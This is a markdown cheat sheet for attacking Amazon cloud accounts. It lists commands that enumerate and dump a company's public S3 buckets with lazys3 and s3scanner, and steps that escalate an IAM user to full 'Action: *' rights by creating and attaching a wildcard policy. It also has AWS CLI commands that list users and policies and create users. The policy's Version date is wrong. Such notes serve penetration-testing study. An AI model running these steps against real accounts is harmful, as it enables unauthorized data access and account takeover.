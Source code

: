 ## Cloud hacking cheat sheet

### Amazon

#### Install awscli
```sh
pip3 install awscli
```

#### S3 Bucket Enumeration

##### Search for public buckets from a company using lazys3
```sh
ruby lazys3.rb [COMPANY]
```
##### Search for public buckets from a company using s3scanner
```sh
python3 ./s3scanner.py sites.txt
```

##### Dump all open buckets and log both open and closed buckets using s3scanner
```sh
python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt
```

##### Save the file listings of all open buckets to a file using s3scanner
```sh
python ./s3scanner.py --list names.txt
```

#### Escalate IAM User Privileges by Exploiting Misconfigured User Policy
```sh
vim user-policy.json
```

Insert:
```sh
{
    "Version": "2011-09-11",
    "Statement": [
        {

            "Effect": "Allow",

            "Action": "*",

            "Resource": "*"

        }
    ]
}
```

Attach the created policy (user-policy) to the target IAM user’s account:

```sh
aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json

aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy
```

#### View user policies
```sh
aws iam list-attached-user-policies --user-name [Target Username]
```

#### List users
```sh
aws iam list-users
```

#### List buckets
```sh
aws s3api list-buckets --query "Buckets[].Name"
```

#### List user policies
```sh
aws iam list-user-policies
```

#### List role policies
```sh
aws iam list-role-policies
```

#### List froup policies
```sh
aws iam list-group-policies
```

#### Create user
```sh
aws iam create-user
```



[<- Back to index](README.md)

---
## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`